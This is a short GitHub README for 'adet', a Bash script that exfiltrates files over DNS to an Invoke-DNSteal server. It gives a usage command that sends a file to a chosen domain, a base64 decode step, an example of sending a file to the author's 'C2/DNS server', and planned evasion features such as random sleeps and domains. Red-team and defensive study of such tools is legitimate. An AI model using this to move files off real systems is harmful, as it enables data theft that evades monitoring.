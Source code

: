 # adet: Another DNS Exfiltration Tool
Bash script for sending file to Invoke-DNSteal server

# Instructions:
1. Run [Invoke-DNSteal.py](https://github.com/JoelGMSec/Invoke-DNSteal ) in your DNS server
2. Use:
```
./adet.sh <file> <domain>
```
3. Decode the received file in base64
```
base64 -d <received_file>
```

Example: Sending [byp4xx.py](https://github.com/lobuhi/byp4xx/blob/main/byp4xx.py) to my own customized C2/DNS server 
![ =50x](dnsteal.jpg)

# TO-DO:
 - Add random sleep option
 - Add random domain when DNS server is specified
 - Add byte length option
 - Add TCP option
 - Add encryption? Why not?
